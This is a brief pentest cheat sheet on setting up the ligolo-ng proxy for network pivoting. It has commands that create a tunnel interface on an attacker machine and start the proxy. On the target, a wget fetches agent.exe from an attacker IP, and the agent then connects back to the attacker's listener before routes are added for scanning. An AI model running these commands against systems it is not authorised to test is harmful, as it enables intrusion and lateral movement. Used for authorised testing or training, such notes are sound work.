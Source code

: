 # Ligolo Proxy setup and generals Commands

https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/
<img width="897" height="391" alt="image" src="https://github.com/user-attachments/assets/ff261fe4-d9a4-4cf0-91c8-2d7d19f4d61d" />

### Get ligolo 

https://github.com/nicocha30/ligolo-ng
Install the ‘agent’ file on the target machine and the ‘proxy’ file on the attacking machine (Kali Linux).

### setup ligolo
ROOT on attacker machine:
```
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ifconfig
```
<img width="725" height="104" alt="image" src="https://github.com/user-attachments/assets/47f55501-344b-4643-9742-5956cb70a79b" />


start proxy : 

```
./proxy -selfcert
```

```
 wget 192.168.1.5/agent.exe -o agent.exe
./agent.exe -connect 10.10.10.10:11601 -ignore-cert
```

```
ip route add 10.10.10.0/24 dev ligolo
ip route list
```

<img width="1134" height="267" alt="image" src="https://github.com/user-attachments/assets/b7e7b7ec-e82c-4245-9b47-b1af5696bf67" />

<img width="1413" height="93" alt="image" src="https://github.com/user-attachments/assets/30a2d250-14ad-4ea1-a66c-400dfaf4c996" />

now link is seen as up. let's nmap everythings !



